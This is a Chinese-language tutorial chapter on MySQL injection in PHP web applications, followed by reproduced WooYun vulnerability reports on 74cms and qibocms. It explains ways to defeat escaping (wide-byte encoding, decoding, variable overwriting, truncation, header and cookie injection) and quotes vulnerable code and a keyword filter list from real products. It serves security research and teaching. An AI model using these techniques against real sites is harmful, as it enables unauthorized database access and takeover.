


# 0x03 注入

* * *

下面来说一下注入。 这里谈的是 mysql。 注入大概也就是把用户可控的一些变量, 带入到了数据库的各种操作当中且没有做好很好的过滤。 比如注册用户的时候检测用户名是否存在的时候,把用户提交的用户名拿到数据库中去查询。 查询是否存在这个用户名, 如果这里对用户名没有做好过滤的话 那么用户就可以提交一些特殊字符来注入了。

现在注入的主要原因是 很多程序员在写 sql 语句的时候 还是搞的语句拼接。

一些用了预编译或者是在查询的函数中再来过滤 很多时候就给跪了。

```php
select update insert delete 
```

因为 mysql query 并不能执行多行语句, 除非 pdo 啥的能多行 所以不能像 mssql 那样 还能在 select 后执行个 update 管理的语句。

对于这四种类型的注入一般的语句的构造也不同。

如果有 mysql error 的话

那么这四种就都能用报错注入 这种是比较方便的

如果没 mysql error 的话

Select 的注入 一般是用 union select 如果把对数据库中的查询结果展示出来的话那么就能直接出数据了。 如果无回显的话 那么当然就是盲注了。

Update 的注入 如果是在 update set 的位置的话 那么我们可以找找这个表的哪个 column 会被展示出来 例如如果一个 update 的注入点是在用户表且是在 set 位置可控的话 那么我们可以 update email 这个 column 然后去用户资料看一下自己的 email 就出数据了 语句例如 update table set email=(select user()) 如果是在 where 后的话 那么一般也就是盲注了。

Insert 的注入 也是一般是通过找哪个 column 会不会显示出来 尽量把要出的数据插入到这个 column 里面去。 如果没显示的话 也是盲注。

Delete 的注入 一般都是盲注了。

数字型注入主要就是因为他的变量并没有用单引号引住。

但是基本上都是被强制类型转换了 intval 啥的。

但是有时候会有遗漏的嘛。

而字符型和搜索型的 都是会有单引号引住的。

所以需要闭合单引号再来进行注入。

说到单引号不得不说个 php.ini 里的配置

Magic_quotes_gpc 在稍微高点的版本默认都是 on

但是却在应该是 5.4 就已经废除了。

从字面意思上来看 就是对 GPC QUOTE 嘛

GPC 对应的就是 GET POST COOKIE

会被转义的字符为 ' “ \ NULL 会在前面添加上一个转义符。

导致了失去本来的意义 无法闭合单引号进行注入。

(1) 全局没有做 addslashes 的

像这种全局没有对 GET POST COOKIE 做 addslashes 的 这种厂商基本是会在查询的时候 再对一些用户可控的变量进行 addslashes 甚至是不进行 addslashes 直接带入查询的。

这样的就算在查询的时候进行 addslashes 在很多时候也都能找到几处遗漏了 addslashes 的。 这种的比较简单 不多说。

(2) 全局做 addslashes

现在稍微好一点的厂商都知道了在全局文件中对 GET POST COOKIE 做 addslashes (甚至是在带入查询的函数中再做了转义或者预编译 这种给跪) 所以基本不用担心哪里遗漏了哪里忘记了 addslashes) 这种的基本是首先先 get magic quotes gpc 判断 gpc 是否开启 如果没开启的话 再调用 addslashes 来转义 。 如果开启的话 就不用来 addslashes 了。 没开启就 addslashes.

这里主要讲的就是这种类型的注入的一些常见的

## 宽字节注入

* * *

这个是一个老生常谈的问题, 从一开始的数据库字符集 GBK 的宽字节注入 到现在也有很久了。

但是并不是字符集为 GBK 的就能宽字节注入。

总有一些小伙伴说咋我看的 cms 字符集是 gbk 的 但是咋不能宽字节呢?

这是因为数据库的连接方式不同

Set names gbk 这样的就能宽字节

但是现在这样的基本都看不到了。 因为基本都是设置了二进制读取了。

Binary。

这样的宽字节基本没了, 却有了另外一种。

因为转换字符集造成的宽字节注入

从 utf8 转到 gbk 或者从 gbk 转到 utf8 啥的。

例子: [WooYun: 74cms 最新版 注入 8-9](http://www.wooyun.org/bugs/wooyun-2014-063225)

錦 从 UTF8 转成 GBK 之后成了 %e5%5c74cms 对 GET POST COOKIE …… 都做了 addslashes 所以' 转义后为\'->%5C %e5%5c%5c' 两个\ 则单引号出来

例子 2: [WooYun: qibocms 下载系统 SQL 注入一枚（官网可重现）](http://www.wooyun.org/bugs/wooyun-2014-055842)

## 解码导致

* * *

因为在全局文件中 addslashes

如果我们能找到一些解码的 例如 urldecode base64_decode 的

那么我们先提交 encode 之后的 那么就能不被转义了。

然后 decode 后 再带入查询 造成了注入 无视 gpc。

这种的很常见。

例子很多 随便找一个

例子: [WooYun: qibocms B2b 注入一枚](http://www.wooyun.org/bugs/wooyun-2014-053187) //qibocms 注入

例子: [WooYun: phpdisk V7 sql 注入 2](http://www.wooyun.org/bugs/wooyun-2014-056822) //phpdisk 注入

## 变量覆盖

* * *

常见的变量覆盖 有啥 extract 和 parse_str 函数啥的

当然还有$$

变量覆盖得结合一些具体的场景了。

例如 extract($_POST)啥的 直接从 POST 数组中取出变量

这样的还是遇到过几个 然后覆盖掉之前的一些变量。

覆盖的话 一般是覆盖掉表前缀之类的

Select * from $pre_admin where xxx 像这种的就覆盖掉$pre

然后直接补全语句然后注入。

例子: [WooYun: qibocms 分类注入一枚可提升自己为管理](http://www.wooyun.org/bugs/wooyun-2014-053189)

例子 2: [WooYun: phpmps 注入一枚](http://www.wooyun.org/bugs/wooyun-2014-051734)

当然 $$ 也挺经常用到的 这个例子很不错。

例子 3: [WooYun: MetInfo 最新版(5.2.4)一处 SQL 盲注漏洞](http://www.wooyun.org/bugs/wooyun-2014-055338)

## 一些 replace 造成的

* * *

一些 cms 中 总有一些逗比过滤函数

会把’ 啥的 replace 成空

但是他似乎忘记了自己全局有转义?

用户提交一个' 全局转义成\' 然后这过滤函数又会把 ' replace 成空

那么就留下了\ 导致可以吃掉一个单引号 是 double query 的话

```php
Select * from c_admin where username=’admin\’ and email=’inject#’ 
```

这样就可以注入了。

话说之前还遇到过一个厂商。。 之前提交了漏洞 是因为他会把

' " 都会替换成空 然后提交之后 他就去掉了' 就是不把' 替换成空了。

但是他似乎忘记了 " 也会被转义。。 那么提交一个 " 就又剩下了一个转义符。

例子: [WooYun: PHPCMS 全版本通杀 SQL 注入漏洞](http://www.wooyun.org/bugs/wooyun-2014-050636)

当然还有一些 replace 是用户可控的。就是说用户可以想把啥提交成空就提交成空

例如很久前的 cmseasy 和 ecshop 的那个注入

例如这段代码

```php
$order_sn = str_replace($_GET['subject'],'',$_GET['out_trade_no']); 
```

这里因为会被转义 如果提交 ' 就成 \' 这里可以看到

这里清成空的 是我们 get 来的 那我们就想办法把\ replace 掉

但是如果我们 GET 提交把\ replace 那么会被转义 就是 replace 掉\

但是我们只是 \' 所以不能把\去掉 如果我有\ 还要你清空个毛啊。

这里我们来理清一下思路。

Addslashes 会对' " \ NULL 转义

```php
' =>  \'
" => \"
\ => \\
NULL => \0 
```

那这里我们就提交 %00’ 就会被转义生成 \0\' 这时候我们再提交把 0 替换成空 那么就成了\' 单引号也就成功出来了。

例子: [WooYun: cmseasy 绕过补丁 SQL 注入一枚](http://www.wooyun.org/bugs/wooyun-2014-053198)

## SERVER 注入

* * *

因为在很多 cms 中 基本上都只是对 GET POST COOKIE 进行 addslashes

而没有对 SERVER 进行转义。

而一些 SERVER 的变量也是用户可以控制的。

例如啥 QUERY_STRING X_FORWARDED_FOR CLIENT_IP HTTP_HOST ACCEPT_LANGUAGE 很多。

这里最常见的当然也就是 X_FORWARDED_FOR

这个一般是在 ip 函数中用到 如果后面没有进行验证 ip 是否合法的话就直接 return 这个大部分时候都会导致注入。

例子 1: [WooYun: Phpyun 注入漏洞二](http://www.wooyun.org/bugs/wooyun-2014-068853)

这里说到验证 ip 这里基本都是用的正则来验证是否合法。

而一些厂商连正则都写错。

例如在 cmseasy 中的验证 ip 的正则中(%.+)

导致了后面可以写任意字符。

例子 2: [WooYun: CmsEasy 最新版本无限制 SQL 注射](http://www.wooyun.org/bugs/wooyun-2014-062957)

最近自己在看 douphp 里面的验证 ip 的正则自己也发现了一点小问题。

不过也就只是小问题而已。

Douphp 中的获取 ip 的函数。

```php
function get_ip() {
static $ip;
if (isset($_SERVER)) {
if (isset($_SERVER["HTTP_X_FORWARDED_FOR"])) {
$ip = $_SERVER["HTTP_X_FORWARDED_FOR"];
} else if (isset($_SERVER["HTTP_CLIENT_IP"])) {
$ip = $_SERVER["HTTP_CLIENT_IP"];
} else {
$ip = $_SERVER["REMOTE_ADDR"];
}
} else {
if (getenv("HTTP_X_FORWARDED_FOR")) {
$ip = getenv("HTTP_X_FORWARDED_FOR");
} else if (getenv("HTTP_CLIENT_IP")) {
$ip = getenv("HTTP_CLIENT_IP");
} else {
$ip = getenv("REMOTE_ADDR");
}
}

if (preg_match('/^(([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5]).){3}([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])$/', $ip)) {
return $ip;
} else {
return '127.0.0.1';
}
}
} 
```

来看看验证 ip 是否合法的正则

```php
preg_match('/^(([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5]).){3}([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])$/', $ip) 
```

这里我们仔细来看看 他这里是准备匹配小数点 但是他直接写成了.

都知道在正则中.表示的是匹配任意字符 除开换行符意外 但是在开启/s 修正符以后 换行符也会匹配。

不过他这个.后面没啥+或者?的 导致也就只能写一个字符。

他这里直接写成了. 那在这里我们就能引入单引号了。不过也就一个字符。

这里的正确写法应该是.

## FILES 注入。

* * *

也差不多 也是因为全局只对 COOKIE GET POST 转义 遗漏了 FILES 且不受 gpc。

FILES 注入一般是因为上传 会把上传的名字带到 insert 当中入库。

然后这里文件的名字是我们可以控制的 所以导致了注入。

而这里的上传的名字是我们可以控制的。

例子: [WooYun: qibocms 黄页系统 SQL 注入一枚](http://www.wooyun.org/bugs/wooyun-2014-065837)

还有一些 在入库的时候才对文件的名字进行了转义 而在获取后缀后 在入库的时候对文件名转义了却没有对后缀转义也导致了注入

例子: [WooYun: Supesite 前台注入 #2 (Insert)](http://www.wooyun.org/bugs/wooyun-2014-079041)

## 未初始化造成的注入

* * *

很久以前 php<4.20 的时候 为了方便 register_globals 默认都是 on。

而到了后面 register_globals 的弊端也显现了出来, 所以也在很久以前默认都是 off 了。

而到了现在, 很多 cms 却喜欢模仿 register_globals 搞起了伪全局机制。

例如啥 qibocms metinfo destoon 啥的啊。

这样是方便了不少, 但是如果哪里遗漏了初始化 那么就会导致注入了。

感觉这种的挺好玩的 多找了几个例子。

例子: [WooYun: qibocms 地方门户系统注入一个问题(demo 测试)](http://www.wooyun.org/bugs/wooyun-2014-080867)

例子: [WooYun: qibocms 地方门户系统注入（多处类似,demo 测试)](http://www.wooyun.org/bugs/wooyun-2014-080870)

例子: [WooYun: 齐博地方门户系统 SQL 注入漏洞(无需登录可批量)](http://www.wooyun.org/bugs/wooyun-2014-079938)

例子: [WooYun: 齐博整站/地方门户 SQL 注入漏洞](http://www.wooyun.org/bugs/wooyun-2014-080259)

## 数组中的 key。

* * *

因为在对全局转义的时候

很多 cms 都只是判断 gpc 是否开启

如果 off 就对数组中的 value 就行 addslashes

却忘记了对数组中的 key 进行转义。

那么这样也导致了一个问题。 也就是在 Gpc off 的时候那么数组的 key 没有被过滤 导致可以引入单引号。(听说低版本的 php 对二维数组中的 key 就算 gpc on 也不会转义)

如果哪里把数组中的 key 读取出来 然后把 key 带入到了查询当中

那么也会造成安全问题。

而且这样的例子很多。 简直惨不忍睹。 例子: [WooYun: qibocms V7 整站系统最新版 SQL 注入一枚 & 另外一处能引入转义符的地方。](http://www.wooyun.org/bugs/wooyun-2014-069746) //数组 key 的注入例子: [WooYun: qibocms 多个系统绕过补丁继续注入 2](http://www.wooyun.org/bugs/wooyun-2014-070353)

例子: [WooYun: qibocms 全部开源系统 Getshell](http://www.wooyun.org/bugs/wooyun-2014-070366)

例子: [WooYun: Discuz 5.x 6.x 7.x 前台 SQL 注入漏洞一枚](http://www.wooyun.org/bugs/wooyun-2014-071516)

## offset

* * *

这种算是比较常见的一种注入的。

代码大概如

```php
<?php
$key=0;
$a=$_GET[a][$key];
$b=$_GET[b];
Mysql_query("select * from table where xxx='$a' and xx='$b'") 
```

如果这里$_GET[a] 提交的是一个数组 且含有一个 key 为 0 的那么$a 就是对应的这个 key 的 value

但是这里并没有强制要求为数组。

那么我们提交一个字符串 那么后面的[0] 那么就是截取的第一个字符

在全局中 单引号被转义为\' 截取第一个字符就为了\

吃掉一个单引号 然后就在$b 处写入 inject 可以注入了。

例子: [WooYun: qibocms 地方门户系统 注入#4(demo 测试)](http://www.wooyun.org/bugs/wooyun-2014-080875)

还有 map 发的那 Disucz 7.2 的那注入也一样。

## 第三方插件

* * *

很常见的一种洞。

比较常见的 uc 和 alipay tenpay chinabank 啥的

特别是 uc 因为默认 uc 里面都会 striplashes

Uc 的话 一般会遇到的问题是 uckey 默认的。

或者是 uckey 这个常量根本就没有初始化。

导致了 uckey 可控 再导致了 Getshell 或者 注入啥的。

还有 tenpay 和 alipay 啥的 一些是因为忘记把过滤的文件包含进来

且 key 默认是空的 导致可以通过验证。

例子: [WooYun: phpmps 注入 (可修改其他用户密码,官网成功)](http://www.wooyun.org/bugs/wooyun-2014-060159) // phpmps uc 致注入

例子: [WooYun: PHPEMS (在线考试系统) 设计缺陷 Getshell 一枚(官网已 shell)](http://www.wooyun.org/bugs/wooyun-2014-061135) /phpems uc 致 getshell

例子: [WooYun: 最土团购注入一枚可直接提升自己为管理 & 无限刷钱。](http://www.wooyun.org/bugs/wooyun-2014-058479) //最土团购 chinabank 致注入

例子: [WooYun: Destoon Sql 注入漏洞 2（有条件）](http://www.wooyun.org/bugs/wooyun-2014-055026) //destoon tenpay 致注入

例子: [WooYun: CSDJCMS 程式舞曲最新版 Sql 一枚](http://www.wooyun.org/bugs/wooyun-2014-052363) //csdj tenpay 致注入

## 数字型注入

* * *

其实也不只是数字型 只是说一些忘记加单引号的地方都这样。

只是一般数字型的都不会加单引号的。

一般的是

```php
$id=$_GET[id];
Select * from table where id=$id; 
```

$id 没被单引号 且 没有被强制类型转换 那么就算 addslashes 了 由于不需要去闭合单引号 所以也无影响。

例子: [WooYun: qibocms 地方门户系统 注入#3 (demo 测试)](http://www.wooyun.org/bugs/wooyun-2014-080873)

并不是一些数字型 一些其他的点也有些忘记加单引号 导致了注入。 例子: [WooYun: Supesite 前台注入 #3 (Delete)](http://www.wooyun.org/bugs/wooyun-2014-079045)

这里 supesite 的注入还涉及到了一个设计缺陷。这里把

```php
$query = $_SGLOBAL['db']->query('SELECT * FROM '.tname('spacetags').' WHERE itemid=\''.$itemid.'\' AND status=\''.$status.'\'') 
```

$itemid 首先带入到了查询当中 是被单引号了的。。 如果查询出来的有结果 才会带入到 delete 中 如果无结果 就不执行 delete 的语句了。而在数据库中 itemid 中 存储的是 int 类型 所以他这里本意是想要用户只能提交数字型才能查询出结果。 如果不是提交的数字的话 那么就查询不出来结果 就不去执行下面的 delete 语句了。但是由于 mysql 的类型转换 因为他这里储存的是 int 类型 所以我们提交 4xxxxx 跟我们提交 4 是一样的

```php
$_SGLOBAL['db']->query('DELETE FROM '.tname('spacetags').' WHERE itemid='.$itemid.' AND tagid IN ('.simplode($deletetagidarr).') AND status=\''.$status.'\''); 
```

然后就执行这个 delete 语句 然后没单引号 造成了注入。

例子: [WooYun: phpyun v3.2 (20141226) 两处注入。](http://www.wooyun.org/bugs/wooyun-2014-088872)

这个 phpyun 的注入 主要是因为 php 是弱类型语言

一些厂商喜欢这样写

```php
If ($a>1){
Mysql_query(select id from table where id=$a)
} 
```

他这个本来是想用户提交数字才能通过这个判断 但是由于弱语言 1+asd 啥的 都能通过 所以又导致了注入。

## 二次注入

* * *

也是一种比较常见的注入。 涉及到的是入库和出库。 因为有全局转义 然后入库的时候

```php
Insert into table (username) values ('a\''); 
```

这样入库后 转义符就会消失 那么就是 a' 如果哪里再把这个查询出来 那么也就是出库的是 a' 如果再把出库的 再带入到了查询啥的 那么就再次成功的引入了单引号导致了注入

例子: [WooYun: phpyun v3.2 (20141226) 两处注入。](http://www.wooyun.org/bugs/wooyun-2014-088872) 例子: [WooYun: qibocms 地方门户系统 二次注入#5(demo 测试)](http://www.wooyun.org/bugs/wooyun-2014-080877) 例子: [WooYun: 74cms (20140709) 二枚二次注入](http://www.wooyun.org/bugs/wooyun-2014-068362) 例子: [WooYun: Hdwiki 最新版二次注入一枚](http://www.wooyun.org/bugs/wooyun-2014-067424)

比较是硬伤的是 很多时候数据库中存储的长度是有限制的。 所以一些也不是太好利用。

## 查询当中 key 可控

* * *

不知道也应不应该把这个归为一类。

大概是因为一些查询的时候 直接把$_POST 啥的 直接带入到了查询函数当中

例如 cmseasy 的 rec_insert 的查询函数中。

然后 foreach key 出来 然后 foreach 出来的 key 做了查询中的 column

这种的防止方法一般是 把数据库中的 column 查询出来 然后 in_array 判断一下$_POST 出来的 key 是否在数据库中的 column 中 下面两个例子就是这样修复的。

例子: [WooYun: 云人才系统 SQL 注入，绕过 WAF](http://www.wooyun.org/bugs/wooyun-2014-060166) 例子: [WooYun: Cmseasy SQL 注射漏洞之三](http://www.wooyun.org/bugs/wooyun-2014-066221)

## striplashes

* * *

有些 cms 在全局 addslashes 后 然后在后面的文件中又 stripslashes 去掉了转义符 然后又可以闭合单引号了。

```php
$_SESSION['flow_consignee'] = stripslashes_deep($consignee); 
```

例子: [`www.2cto.com/Article/201301/182509.html`](http://www.2cto.com/Article/201301/182509.html) //之前的 ecshop 注入 。

## 截取字符导致的注入

* * *

有些 cms 有的时候会限制用户输入的长度

所以只截取一部分

例如 uchome 的 cutstr($asd,32);

这样只允许输入 32 个字符 而且 uchome 里面的这个也没有像 dz 那样截取字符的后面加...

那么如果我们提交一个 1111111111111111111111111111111’

被转义后成 1111111111111111111111111111111\’

然后截取 32 个字符 就是 1111111111111111111111111111111\

如果又是 double query 的话 吃掉一个单引号 然后下一个连着的可控变量又可以注入了。

结果在 uchome 中找到了个能引入转义符的 结果只有一个可控的。

例子: [WooYun: Hdwiki (20141205) 存在 7 处 SQL 注入漏洞（含之前处理不当安全的漏洞）](http://www.wooyun.org/bugs/wooyun-2014-088004) //里面的 0x06

## 绕过限制继续注册 GLOBALS 变量

* * *

不知道放哪。这个也放到注入板块来把。。

其实就是这次的 DZ6.X 7.X 那个任意代码执行的漏洞

```php
if (isset($_REQUEST['GLOBALS']) OR isset($_FILES['GLOBALS'])) {
exit('Request tainting attempted.');
}

foreach(array('_COOKIE', '_POST', '_GET') as $_request) {
foreach($$_request as $_key => $_value) {
$_key{0} != '_' && $$_key = daddslashes($_value);
}
} 
```

主要关键代码就上面这两段。 这里把 GET POST COOKIE 循环出来 然后注册一个变量 但是 这里不允许创建 GLOBALS 变量 然后 DZ7.X 就是用这样处理的 如果设置了 REQUEST 的 GLOBALS

就直接退出

这段代码在很久以前确实是没什么问题

因为那时候的 request order 还是 gpc

但是在 php 5.3 以后 request order 默认成了 gp

也就是成了 get 和 Post 不包含 cookie 了。

所以 $_REQUEST 里面就不包含 COOKIE 提交来的了。

而且这后面也把 COOKIE 循环出来 注册变量

所以这里我们在 COOKIE 里面提交 GLOBALS 就不会被检测出来了。

而且也成功注册了 GLOBALS 变量。

所以在结合后面的一些些代码就造成了代码执行。

例子: [WooYun: Discuz!某两个版本前台产品命令执行（无需登录）](http://www.wooyun.org/bugs/wooyun-2014-080723)

以上就差不多是我经常所遇到的注入问题 好像暂时也想不到其他什么的了

# WooYun-2014-63225：74cms 最新版 注入 8-9

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-063225`](http://www.wooyun.org/bugs/wooyun-2014-063225)

## 简要描述

骑士 PHP 人才系统：74cms V3.4.20140530

## 详细说明

GBK 2 字节一汉字 UTF8 三字节 一汉字。

74cms 在读取数据库的时候 character_set_client=binary

这样没办法来直接宽字节来注入了。

得找一些转换编码的地方。

錦 从 UTF8 转成 GBK 之后成了 %e5%5c

74cms 对 GET POST COOKIE …… 都做了 addslashes

所以' 转义后为\'

->%5C %e5%5c%5c' 两个\ 则单引号出来

再看看 74cms 的全局过滤

```php
function remove_xss($string) { 

    $string = preg_replace('/[\x00-\x08\x0B\x0C\x0E-\x1F\x7F]+/S', '', $string);

    $parm1 = Array('javascript', 'vbscript', 'expression', 'applet', 'union', 'xml', 'blink', 'link', 'script', 'embed', 'object', 'iframe', 'frame', 'frameset', 'ilayer', 'layer', 'bgsound', 'title', 'base');

    $parm2 = Array('onabort', 'onactivate', 'onafterprint', 'onafterupdate', 'onbeforeactivate', 'onbeforecopy', 'onbeforecut', 'onbeforedeactivate', 'onbeforeeditfocus', 'onbeforepaste', 'onbeforeprint', 'onbeforeunload', 'onbeforeupdate', 'onblur', 'onbounce', 'oncellchange', 'onchange', 'onclick', 'oncontextmenu', 'oncontrolselect', 'oncopy', 'oncut', 'ondataavailable', 'ondatasetchanged', 'ondatasetcomplete', 'ondblclick', 'ondeactivate', 'ondrag', 'ondragend', 'ondragenter', 'ondragleave', 'ondragover', 'ondragstart', 'ondrop', 'onerror', 'onerrorupdate', 'onfilterchange', 'onfinish', 'onfocus', 'onfocusin', 'onfocusout', 'onhelp', 'onkeydown', 'onkeypress', 'onkeyup', 'onlayoutcomplete', 'onload', 'onlosecapture', 'onmousedown', 'onmouseenter', 'onmouseleave', 'onmousemove', 'onmouseout', 'onmouseover', 'onmouseup', 'onmousewheel', 'onmove', 'onmoveend', 'onmovestart', 'onpaste', 'onpropertychange', 'onreadystatechange', 'onreset', 'onresize', 'onresizeend', 'onresizestart', 'onrowenter', 'onrowexit', 'onrowsdelete', 'onrowsinserted', 'onscroll', 'onselect', 'onselectionchange', 'onselectstart', 'onstart', 'onstop', 'onsubmit', 'onunload');

    $parm = array_merge($parm1, $parm2); 

    for ($i = 0; $i < sizeof($parm); $i++) { 

        $pattern = '/'; 

        for ($j = 0; $j < strlen($parm[$i]); $j++) { 

            if ($j > 0) { 

                $pattern .= '('; 

                $pattern .= '(&#[x|X]0([9][a][b]);?)?'; 

                $pattern .= '|(&#0([9][10][13]);?)?'; 

                $pattern .= ')?'; 

            }

            $pattern .= $parm[$i][$j]; 

        }

        $pattern .= '/i';

        $string = preg_replace($pattern, '', $string); 

    }

    return $string; 
```

是开启了 i 修正符的 所以不能用大小写绕过 但是利用清空 uniounionn 等 都行。

* * *

第八处: plus/ajax_common.php 中

```php
elseif($act=="hotword")

{

    if (empty($_GET['query']))

    {

    exit();

    }

    $gbk_query=trim($_GET['query']);

    if (strcasecmp(QISHI_DBCHARSET,"utf8")!=0)

    {

    $gbk_query=iconv("utf-8",QISHI_DBCHARSET,$gbk_query);

    }

    $sql="SELECT * FROM ".table('hotword')." WHERE w_word like '%{$gbk_query}%' ORDER BY `w_hot` DESC LIMIT 0 , 10";

    $result = $db->query($sql);

    while($row = $db->fetch_array($result))

    {

        $list[]="'".$row['w_word']."'";

    }

    if ($list)

    {

    $liststr=implode(',',$list);

    $str="{";

    $str.="query:'{$gbk_query}',";

    $str.="suggestions:[{$liststr}]";

    $str.="}"; 
```

转码后直接带入查询 而且直接输出。

测试一下有 demo 虽然有安全狗 但是能绕过。


* * *

第 9 处 在 plus/ajax_officebuilding.php 中

```php
elseif($act == 'key')

{

    $key=trim($_GET['key']);

    if (!empty($key))

    {

    if (strcasecmp(QISHI_DBCHARSET,"utf8")!=0) $key=iconv("utf-8",QISHI_DBCHARSET,$key);

    $result = $db->query("select * from ".table('category')." where c_alias='QS_officebuilding' AND c_name LIKE '%{$key}%' ");

    while($row = $db->fetch_array($result))

    {

        if ($listtype=="li")

        {

        $htm.="<li  title=\"{$row['c_name']}\" id=\"{$row['c_id']}\">{$row['c_name']}</li>";

        }

        else

        {

        $_GET['officebuildingid']=$row['c_id'];

        $url=url_rewrite('QS_officebuilding',$_GET);

        $htm.="<li><a href=\"{$url}\" title=\"{$row['c_note']}\" class=\"vtip\">{$row['c_name']}</a><span>{$row['stat_jobs']}</span></li>";

        }

    }

    if (empty($htm)) 
```

转换编码后直接带入到查询中 然后直接输出

测试一下 demo


## 漏洞证明

见上面。

## 修复方案

注意转码的安全问题。

# WooYun-2014-55842：qibocms 下载系统 SQL 注入一枚（官网可重现）

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-055842`](http://www.wooyun.org/bugs/wooyun-2014-055842)

## 简要描述

过滤不严。

或许 qibo 上的其他的系统也还存在这个洞 不过我没细看。 表示也不清楚。

## 详细说明

刚从齐博官网上面下了几个系统下来看看。

首先先说一下 企业系统 和 黄页系统、 上次我在乌云发了两个类似的洞

虽然官方是在论坛上发布补丁了。

在首页上把 b2b 系统的文件更新了 ,但是在主页上并没有更新 企业系统 和 黄页系统 这两个类似的漏洞文件。

* * *

下载系统。

在 download/s_rpc.php 中

```php
<?php

require(dirname(__FILE__).'/global.php');

header('Content-Type: text/html; charset=gb2312');

require_once(ROOT_PATH."inc/class.chinese.php");

$cnvert = new Chinese("UTF8","GB2312",$_POST['queryString'],ROOT_PATH."./inc/gbkcode/");

$_POST['queryString'] = $cnvert->ConvertIT();

$queryString = $_POST['queryString']; 

  if(strlen($queryString) >0) {        

      $query = $db->query("SELECT title FROM {$_pre}article WHERE title LIKE '$queryString' ORDER BY hits DESC LIMIT 10");

          while ($result = $db->fetch_array($query)) {

              echo '<li onClick="fill(\''.$result[title].'\');">'.$result[title].'</li>';

          }

  } 
```

虽然全局转义 不过有

```php
$cnvert = new Chinese("UTF8","GB2312",$_POST['queryString'],ROOT_PATH."./inc/gbkcode/");

$_POST['queryString'] = $cnvert->ConvertIT();

$queryString = $_POST['queryString']; 
```

这个 就可以来宽字节了。

在我看的 qibo 官网上的那些系统 有些过滤了这个 不过这个系统没有过滤。

我也没看完 不清楚 其他系统过滤没。

然后直接带入了查询 输出。

## 漏洞证明


本地测试成功

测试一下官网


官网测试成功 有图 有真相。

## 修复方案

求过滤。

求 20 分。

# WooYun-2014-53187：qibocms B2b 注入一枚

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-053187`](http://www.wooyun.org/bugs/wooyun-2014-053187)

## 简要描述

在 wooyun 上看了看 qibo。 忽略了全部 xss. 那我就不提 xss 了。

来几枚注入， 求不忽略可好?

## 详细说明

B2B 系统。

在 news/js.php 中

```php
f($type=='hot'||$type=='com'||$type=='new'||$type=='lastview'||$type=='like')

{

    if($f_id)

    {

        if(is_numeric($f_id)){

            $SQL=" fid=$f_id ";

        }else{

            $detail=explode(",",$f_id);

            $SQL=" fid IN ( ".implode(",",$detail)." ) ";

        }

    }

    else

    {

        $SQL=" 1 ";

    }

    if($type=='com')

    {

        $SQL.=" AND levels=1 ";

        $ORDER=' list ';

        $_INDEX=" USE INDEX ( list ) ";

    }

    elseif($type=='hot')

    {

        $ORDER=' hits ';

        $_INDEX=" USE INDEX ( hits ) ";

    }

    elseif($type=='new')

    {

        $ORDER=' list ';

        $_INDEX=" USE INDEX ( list ) ";

    }

    elseif($type=='lastview')

    {

        $ORDER=' lastview ';

        $_INDEX=" USE INDEX ( lastview ) ";

    }

    elseif($type=='like')

    {

        $SQL.=" AND id!='$id' ";

        if(!$keyword)

        {

            extract($db->get_one("SELECT keywords AS keyword FROM {$_pre}content WHERE id='$id'"));

        }

        if($keyword){

            $SQL.=" AND ( ";

            $keyword=urldecode($keyword);

            $detail=explode(" ",$keyword);

            unset($detail2);

            foreach( $detail AS $key=>$value){

                $detail2[]=" BINARY title LIKE '%$value%' ";

            }

            $str=implode(" OR ",$detail2);

            $SQL.=" $str ) ";

        }else{

            $SQL.=" AND 0 "; 
```

看到 keyword 解码了。 所以无视了全局的转义了。

然后用空格来切割。

就不能用空格了。

官网测试成功。

## 漏洞证明


## 修复方案

求过滤

求保养

求 20.

# WooYun-2014-56822：phpdisk V7 sql 注入 2

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

